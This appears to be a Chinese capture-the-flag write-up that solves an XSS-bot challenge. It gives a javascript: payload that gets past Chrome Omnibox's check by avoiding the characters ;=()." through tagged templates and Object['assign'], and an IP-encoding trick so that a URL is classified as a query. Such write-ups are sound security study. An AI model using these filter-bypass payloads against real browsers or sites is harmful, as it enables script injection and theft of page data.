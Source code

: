 # 给钱不要

查看网站前端源码可知，按下 `Go` 按钮时，进行了对 `location.href` 的赋值操作。这是一个危险操作，因为会自动执行 `javascript:` 标签语句。

对此，`XSSBOT` 的防范是使用 `Chrome Omnibox` 进行安全检查。

根据提示，阅读 `omnibox` 有关源码，在 [`autocomplete_input.cc`](https://github.com/chromium/chromium/blob/main/components/omnibox/browser/autocomplete_input.cc) 中找到如下的代码：

```cpp
  // Treat javascript: scheme queries followed by things that are unlikely to
  // be code as UNKNOWN, rather than script to execute (URL).
  if (base::EqualsCaseInsensitiveASCII(parsed_scheme_utf8,
                                       url::kJavaScriptScheme) &&
      RE2::FullMatch(base::UTF16ToUTF8(text), "(?i)javascript:([^;=().\"]*)")) {
    return metrics::OmniboxInputType::UNKNOWN;
  }
```

可以看到，如果 `javascript:` 语句中不包含 `;=()."`，就不会被识别为 `url`，而是会识别为 `unknown`。那么，如何不使用这些字符，而又能执行我们想要的操作呢？

- `"` 可以用 `'` 直接代替
- `a.b` 可以用 `a['b']` 代替
- 赋值可以用 `Object['assign']` 代替
- 函数调用可以用 `apply` + [模板字面量](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals#tagged_templates) 代替

## Flag 2

可以看到 `XSSBOT` 直接将 Flag 2 放在了 `<p class="flag"></p` 标签中，而我们是可以得到按下 `Go` 按钮后的页面标题的。所以我们只要将页面标题设置为包含 Flag 2 的标签的内容即可。

使用的代码为：

```javascript
javascript: Object['assign']['apply']`${[document, { 'title': document['getElementsByClassName']`flag`[0]['innerText'] }]}`
```

## Flag 1

> 从做题情况来看，这道题大家基本上都是先拿到 Flag 2，然后才拿到 Flag 1。

Flag 2 需要的安全等级为 `safe`，但是 Flag 1 需要的安全等级为 `very safe`，也即只有被识别为 `query` 才可以通过。

### 失败尝试一

部署了一个返回标题为所需标题的[网站](https://geekgame-2022-prob06.gabriel-wu.com/)，在输入框中输入 `https://3 @geekgame-2022-prob06.gabriel-wu.com/` 可以实现跳转，但由于去除前缀后的 `3 @geekgame-2022-prob06.gabriel-wu.com/` 识别为 `unknown` 而不是 `query`，所以虽然成功跳转，标题也符合要求，但无法拿到 Flag 1。

> 第二阶段提示后完成。

提示要把**任意** IP 地址解析成 `QUERY`，但目前只能做到把第三位为 `0` 的 IP 地址解析成 `QUERY`。方法是：对于 `x.y.0.z` 这样的 IP 地址，可以只输入 `x.y.z`，然后浏览器会自动补全为 `x.y.0.z`。

成功实现了把任意 IP 地址解析成 `QUERY` 的目标，方法是把后两位合并写成十六进制。

在自己的服务器上部署了如下的服务：

```javascript
// Require the framework and instantiate it
const fastify = require('fastify')({ logger: true })

// Declare a route
fastify.get('/:name', async (req, res) => {
  const { name = '' } = req.params
  res.type('text/html').status(200).send(`<doctype html><html><title>GIVE-ME-FLAG-1 #=_= @!+!@ ^~^ %[*.*]%</title><body><h1>hello ${name}</h1></body></html>`)
})

// Run the server!
const start = async () => {
  try {
    await fastify.listen({ host: '0.0.0.0', port: 8080 })
  } catch (err) {
    fastify.log.error(err)
    process.exit(1)
  }
}
start()
```

然后让 `XSSBOT` 访问 `http://abc.xyz.0xuvwz:8080/data`*（隐去了服务器具体 IP） 即可拿到 Flag 1（`flag{kfc-FkxQs://vwo.50.Yuan/geini-Flag1}`）。

